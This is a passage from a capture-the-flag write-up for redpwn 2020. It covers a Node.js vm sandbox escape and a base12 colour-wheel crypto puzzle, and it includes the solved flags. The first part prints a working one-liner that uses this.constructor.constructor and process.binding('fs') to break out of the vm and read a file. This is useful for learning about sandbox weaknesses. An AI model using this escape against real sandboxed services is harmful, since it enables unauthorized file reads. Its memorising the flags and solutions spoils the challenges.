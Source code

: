 In order to put the code-recipe together, I had to look on the source files of NodeJS on how fs was being used to open and read, so to understand the flags, mode, buffer, etc
- [fs lib](https://github.com/nodejs/node/blob/master/lib/fs.js)
- [buffer lib](https://github.com/nodejs/node/blob/master/lib/buffer.js)

Placing the command alltogether in a one-liner and running it...
```javascript
> (this.constructor.constructor("var fs = this.process.binding('fs');var readonly_flag = 0;var mode = 0o666;var fd  = fs.open('/ctf/flag.txt', readonly_flag, mode, undefined, {path: '/ctf/flag.txt'}); var buffer = Buffer.alloc(100); fs.read(fd, buffer, 0, 100, -1, undefined, {});return buffer;"))()

flag{vm_1snt_s4f3_4ft3r_41l_29ka5sqD}
```
---

# crypto

## 12 Shades of redpwn

### Flag
```
flag{9u3ss1n9_1s_4n_4rt}
```

### Analysis done
We are handed to image files:
- [chipertext.jpg](https://github.com/s-rodriguez/ctfs/ctfs/redpwn2020/crypto/12-shades-of-redpwn/chipertext.jpg)
- [color-wheel.jpg](https://github.com/s-rodriguez/ctfs/ctfs/redpwn2020/crypto/12-shades-of-redpwn/color-wheel.jpg)

By looking at the color-wheel, we can see that each color from it can be found in the ciphertext image as well. And the hint states it looks like a clock, so let's give numbers to the ciphertext color boxes.

This will end up being:

```
86 90 81 87 A3 49 99 43 97 97 41 92 49 7B 41 97 7B 44 92 7B 44 96 98 A5
```

This looks like some kind of base encoding, and in particular could be base12 (considering the clock hint)

We check it with Python and...

```python
cipher = ['86', '90', '81', '87', 'A3', '49', '99', '43', '97', '97', '41', '92', '49', '7B', '41', '97', '7B', '44', '92', '7B', '44', '96', '98', 'A5']

''.join([chr(int(i, 12)) for i in cipher])

'flag{9u3ss1n9_1s_4n_4rt}'
```
---

